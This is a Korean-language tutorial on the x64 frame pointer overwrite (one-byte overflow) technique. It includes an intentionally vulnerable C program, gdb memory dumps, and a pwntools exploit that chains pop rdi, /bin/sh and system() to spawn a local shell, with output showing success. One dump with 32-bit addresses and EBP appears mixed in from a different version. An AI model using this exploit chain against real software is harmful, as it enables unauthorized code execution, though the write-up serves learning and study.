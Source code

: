 # **x64 Frame Pointer Overwrite**

Frame Poineter를 1byte 덮어써 코드의 흐름을 변경하는 기법. One-byte Overflow라고도 한다.

## **Proof of Concept**

```c
// Vuln Code
// gcc -fno-stack-protector -o fpo fpo.c -ldl
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
#include <stdlib.h>
 
void vuln(){
    char buf[32];
    printf("buf[32] address : %p\n",buf);
    void (*printf_addr)() = dlsym(RTLD_NEXT, "printf");
    printf("Printf() address : %p\n",printf_addr);
    read(0, buf, 49);
}
 
void main(int argc, char *argv[]){
    if(argc<2){
        printf("argv error\n");
        exit(0);
    }
    vuln();
}
```

* buf는 32 byte지만 read를 49 byte하여 bof 발생.

```
0x7ffe119a28b0:	0x4141414141414141         0x4141414141414141
0x7ffe119a28c0:	0x4141414141414141         0x4141414141414141
0x7ffe119a28d0:	0x4141414141414141         0x4141414141414141
0x7ffe119a28e0:	0x00007ffe119a2942 <= rbp  0x000000000040079b 
0x7ffe119a28f0:	0x00007ffe119a29e8         0x0000000200000000
```

* &buf+4(0xbfa07cfe)의 마지막 byte(0xfe)를 EBP의 마지막 바이트에 삽입.

```
gdb-peda$ x/24x $ebp
0xbfa07d02:	0x43434343	0x44444444	0x45454545	0x46464646
0xbfa07d12:	0x47474747	0x48484848	0x80ecb70a	0x0002b7d2
```

* 1 byte 오버플로를 통해 rbp 변경 확인.

```
gdb-peda$ x/24gx $rbp
0x7ffe119a2942:	0x29e0000000000040	0x000000007ffe119a
0x7ffe119a2952:	0x0000000000000000	0x2989000000000000
0x7ffe119a2962:	0x29894ef138aa26b6	0x00004ff63f51fb46
```

* leave 명령으로 인해 rbp 레지스터 값은 rsp에 저장됨
* 따라서 1 byte 변조하여 RTL 코드 또는 Shellcode가 저장된 영역을 가리키게 한다면 Shell 획득 가능

## **Exploit Code**
```python
# Exploit Code
from pwn import *

p=process(['./fpo','a'])
buf = p.recvline()
libc = p.recvline()

onebyte = int(buf.split(' ')[3][12:14],16)
libcBase = int(libc.split(' ')[3],16) - 0x55800
system = libcBase + 0x45390
binsh = libcBase + 0x18cd57
exit = libcBase + 0x3a030
poprdi = 0x400803

print('one byte: '+hex(onebyte))
print('libcBase: '+hex(libcBase))
print('system(): '+hex(system))
print('/bin/sh: '+hex(binsh))
print('exit: '+hex(exit))
print('pop rdi: '+hex(poprdi))

exploit_code = "A"*8
exploit_code += p64(poprdi)
exploit_code += p64(binsh)
exploit_code += p64(system)
exploit_code += "A"*(48-len(exploit_code))
exploit_code += p64(onebyte)

p.sendline(exploit_code)

p.interactive()
```

## **Exploit**
```shell
pwner@bs-virtual-machine:~$ python exploit.py 
[+] Starting local process './fpo': pid 10373
one byte: 0x50
libcBase: 0x7fe3ad0be000
system(): 0x7fe3ad103390
/bin/sh: 0x7fe3ad24ad57
exit: 0x7fe3ad0f8030
pop rdi: 0x400803
[*] Switching to interactive mode
$ id
uid=1001(pwner) gid=1001(pwner) groups=1001(pwner)
```

**Refereces**  
<https://www.lazenca.net/display/TEC/02.Frame+Pointer+Overwrite%28One-byte+Overflow%29+-+x64>
